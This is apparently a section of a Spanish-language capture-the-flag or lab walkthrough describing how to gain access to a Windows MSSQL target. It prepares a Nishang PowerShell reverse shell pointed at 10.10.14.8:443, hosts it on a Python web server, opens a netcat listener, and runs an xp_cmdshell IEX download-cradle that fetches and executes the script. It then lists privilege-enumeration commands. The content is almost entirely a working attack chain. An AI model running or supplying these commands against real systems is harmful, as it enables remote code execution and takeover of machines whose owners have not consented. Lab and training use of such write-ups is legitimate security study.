 ## Vuln exploit & Gaining Access {-}

### Entablar una reverse shell de typo Powershell {-}

Aqui vamos hacer uso de las powershells reversas de Nishang

```bash
git clone https://github.com/samratashok/nishang
cd nishang
cd Shells
cp Invoke-PowerShellTcp.ps1 /home/.../content/PS.ps1
```

En el fichero PS.ps1, añadimos el invoke del script al final del fichero

```Powershell
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.8 -Port 443
```

Esto nos permitte lanzar el Script directamente despues de descargamiento del fichero en la maquina victima


### Enviamos y ejecutamos la reverse shell {-}

1. montamos un http server con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina de attackante en una nueva shell

    ```bash
    rlwrap nc -nlvp 443
    ```

1. en la mssql shell

    ```bash
    xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.8/PS.ps1\")"
    ```

Ya estamos a dentro.

### Analizamos el systema {-}

```bash
whoami
ipconfig
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
whoami /priv
```
